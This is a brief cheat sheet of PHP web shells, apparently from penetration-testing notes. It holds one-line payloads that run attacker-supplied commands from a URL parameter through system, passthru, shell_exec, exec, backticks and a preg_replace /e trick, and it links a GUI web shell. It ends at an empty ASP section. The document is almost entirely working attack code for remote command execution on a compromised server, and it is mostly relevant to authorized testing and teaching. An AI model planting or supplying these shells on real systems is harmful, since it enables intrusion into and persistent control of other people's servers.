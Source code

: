 # PHP Webshells

#### Execute one command
<?php system("whoami"); ?>

#### Take input from the url paramter. shell.php?cmd=whoami
<?php system($_GET['cmd']); ?>

#### The same but using passthru
<?php passthru($_GET['cmd']); ?>

#### For shell_exec to output the result you need to echo it
<?php echo shell_exec("whoami");?>

#### Exec() does not output the result without echo, and only output the last line. So not very useful!
<?php echo exec("whoami");?>

#### Instead to this if you can. It will return the output as an array, and then print it all.
<?php exec("ls -la",$array); print_r($array); ?>

#### preg_replace(). This is a cool trick
<?php preg_replace('/.*/e', 'system("whoami");', ''); ?>

#### Using backticks
<?php $output = `whoami`; echo "<pre>$output</pre>"; ?>

#### Using backticks
<?php echo `whoami`; ?>

#### Web shell with GUI
Try Sweetuu : github.com/cspshivam/sweetuu

# ASP Webshell
